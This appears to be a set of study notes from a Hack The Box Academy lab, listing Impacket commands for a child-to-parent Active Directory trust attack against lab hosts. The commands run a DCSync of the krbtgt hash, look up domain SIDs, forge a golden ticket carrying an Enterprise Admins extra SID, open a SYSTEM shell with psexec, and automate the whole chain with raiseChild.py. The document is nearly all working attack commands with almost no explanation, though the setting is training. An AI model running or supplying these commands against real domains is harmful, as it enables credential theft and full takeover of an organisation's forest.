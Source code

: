 #### Performing DCSync with secretsdump.py
```shell-session
Tachipy@htb[/htb]$ secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
```
#### Performing SID Brute Forcing using lookupsid.py

```shell-session
Tachipy@htb[/htb]$ lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 
```
#### Looking for the Domain SID

```shell-session
Tachipy@htb[/htb]$ lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"
```
#### Grabbing the Domain SID & Attaching to Enterprise Admin's RID

```shell-session
Tachipy@htb[/htb]$ lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"
```
#### Constructing a Golden Ticket using ticketer.py

#### Setting the KRB5CCNAME Environment Variable

  Setting the KRB5CCNAME Environment Variable

```shell-session
Tachipy@htb[/htb]$ export KRB5CCNAME=hacker.ccache 
```
```shell-session
Tachipy@htb[/htb]$ ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker
```
#### Getting a SYSTEM shell using Impacket's psexec.py

```shell-session
Tachipy@htb[/htb]$ psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5
```
#### Performing the Attack with raiseChild.py

```shell-session
Tachipy@htb[/htb]$ raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm
```